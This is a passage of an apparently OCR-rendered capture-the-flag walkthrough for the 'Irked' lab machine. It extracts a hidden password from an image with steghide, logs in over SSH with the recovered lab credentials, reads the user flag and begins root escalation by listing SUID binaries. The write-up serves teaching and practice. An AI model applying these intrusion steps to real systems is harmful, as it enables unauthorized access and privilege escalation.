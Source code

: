 Returns:

```bash
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

Steg? Perhaps steganography is in play here. [Steganography](https://en.wikipedia.org/wiki/Steganography) is the act of hiding information in plain
sight, typically in media files. Thinking back to port 80, `index.html` had an image on it. Let’s give
it a shot. Download the image from the homepage, `irked.jpg`, and let’s run `steghide` on it, using
`UPupDOWNdownLRlrBAbaSSss` as the password.

```bash
steghide extract -sf irked.jpg
Enter passphrase: UPupDOWNdownLRlrBAbaSSss
wrote extracted data to "pass.txt".
```

`pass.txt` contains the value `Kab6h+m+bbp2J:HG`. This is the SSH password for `djmardov`. Let’s
proceed with logging in as the user with the following commands below:

```bash
root@kali:~# ssh djmardov@10.10.10.117
djmardov@10.10.10.117’s password: Kab6h+m+bbp2J:HG
```

We’re in. Let’s grab the user flag from earlier, `user.txt`.

```bash
djmardov@irked:~$ cat /home/djmardov/Documents/user.txt
4 a66a78b12dc0e661a59d3f5********
```

### Privilege Escalation to Root

For this privilege escalation exploit, enumeration is key. One of the best places to start enumeration
is the `SUID binaries`. Let’s find all of the active `SUID binaries` by running the below:

```bash
djmardov@irked:~$ find / -perm -u=s -type f 2>/dev/null
```

Returns:

```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
```